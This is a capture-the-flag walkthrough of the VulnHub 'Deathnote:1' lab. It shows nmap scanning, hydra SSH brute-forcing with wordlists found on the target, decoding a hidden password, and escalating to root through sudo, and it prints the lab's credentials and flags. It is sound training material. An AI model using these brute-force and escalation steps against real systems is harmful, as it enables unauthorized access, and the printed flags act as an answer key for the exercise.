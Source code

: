 # 📝 CEH Practical Walkthrough – VulnHub *Deathnote:1*

## 🔎 1. Reconnaissance
First, scan the network to identify the target host and open ports:

```bash
nmap -sV -p- 192.168.56.123
```

**Results**:
- **22/tcp** – OpenSSH  
- **80/tcp** – Apache/WordPress  

---

## 🌐 2. Web Enumeration
Browsing to `http://192.168.56.123/wordpress/`, WordPress is discovered.  

Under `wp-content/uploads/`, two interesting files were found:
- `user.txt`
- `notes.txt`

---

## 🔐 3. Brute-forcing SSH
Using `hydra` with the two wordlists:

```bash
hydra -L user.txt -P notes.txt ssh://192.168.56.123
```

**Credentials found**:
```
l : death4me
```

---

## 💻 4. User Shell (l)
Login via SSH:

```bash
ssh l@192.168.56.123
```

After exploring, we find `/opt/L` containing a suspicious file:  

```bash
ls /opt/L
case.wav  hint
```

---

## 🎧 5. Decoding Hidden Password
`case.wav` contained hex-encoded data. Following the hint, decoding with CyberChef (Hex → ASCII → Base64) revealed:

```
kiraisevil
```

---

## 🔑 6. Escalating to User kira
Switch user with the recovered password:

```bash
ssh kira@192.168.56.123
# or
su kira
```

Login successful. Inside home directory:

```bash
ls
kira.txt
```

Content of `kira.txt`:

```
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
```

This is **Base64** (serves as a flag and hint).  
Decoded message:

```
please protect one of the following 
1. L (/opt)
2. Misa (/var)
```

---

## 🛠️ 7. Privilege Escalation
Check sudo privileges:

```bash
sudo -l
```

`kira` can run sudo. Escalate:

```bash
sudo su
```

Now root:

```bash
whoami
root
```

---

## 🏁 8. Root Flag
Navigate to root directory:

```bash
cd /root
ls
root.txt
cat root.txt
```

**Flag**:  
```
::::::::       ::::::::       ::::    :::       ::::::::       :::::::::           :::    :::::::::::       :::::::: 
:+:    :+:     :+:    :+:      :+:+:   :+:      :+:    :+:      :+:    :+:        :+: :+:      :+:          :+:    :+: 
+:+            +:+    +:+      :+:+:+  +:+      +:+             +:+    +:+       +:+   +:+     +:+          +:+         
#+#            +#+    +:+      +#+ +:+ +#+      :#:             +#++:++#:       +#++:++#++:    +#+          +#++:++#++   
#+#            +#+    +#+      +#+  +#+#+#      +#+   +#+#      +#+    +#+      +#+     +#+    +#+                 +#+    
#+#    #+#     #+#    #+#      #+#   #+#+#      #+#    #+#      #+#    #+#      #+#     #+#    #+#          #+#    #+#     
########       ########       ###    ####       ########       ###    ###      ###     ###    ###           ########       

##########follow me on twitter###########3
and share this screen shot and tag @KDSAMF
```

---

## 🎯 Summary of Findings
- **User Flag 1 (l)** → `user.txt` from uploads.  
- **User Flag 2 (kira)** → Base64 string in `kira.txt`.  
- **Final Flag (root)** → `/root/root.txt`.  

✅ Successfully gained root access and captured all flags.  
